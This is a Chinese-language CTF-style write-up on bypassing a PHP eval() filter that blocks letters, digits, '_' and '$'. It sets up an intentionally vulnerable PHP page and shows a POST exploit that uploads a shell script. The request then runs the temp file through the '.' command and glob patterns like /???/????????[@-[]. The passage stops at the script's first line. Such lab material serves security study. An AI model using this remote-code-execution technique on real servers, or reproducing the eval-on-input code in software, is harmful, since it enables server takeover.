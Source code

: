 ```````
构建环境
```
docker run --rm -d -p 9090:80 -v `pwd`:/var/www/html php:5.6-apache
```
PHP代码，这次屏蔽`$`和`_`
```php
<?php
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){
        die("NO.");
    }
    eval($code);
}else{
    highlight_file(__FILE__);
}
?>
```
Linux shell知识点：

1. shell下可以利用.来执行任意脚本
2. Linux文件名支持用glob通配符代替

执行. /tmp/phpXXXXXX，也是有字母的。此时就可以用到Linux下的glob通配符：

1. *可以代替0个及以上任意字符
2. ?可以代表1个任意字符

那么，/tmp/phpXXXXXX就可以表示为/*/?????????或/???/?????????。
但我们尝试执行. /???/?????????，却会报错，因为能被匹配上的文件有很多。
翻开ascii码表，可见大写字母位于@与[之间：
![image-20240228170453540](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170453540.png)
那么，我们可以利用[@-[]来表示大写字母：

```bash
ls /???/????????[@-[]
```
![image-20240228170502355](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170502355.png)
当然，php生成临时文件名是随机的，最后一个字符不一定是大写字母，不过多尝试几次也就行了。
POST数据报文如下

```
POST /test.php?code=?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%40-[]`%3b?> HTTP/1.1
Host: 192.168.173.144:9090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en
Connection: close
Content-Type: multipart/form-data; boundary=--------253975810
Content-Length: 145

----------253975810
Content-Disposition: form-data; name="file"; filename="1.txt"

#!/bin/sh
```````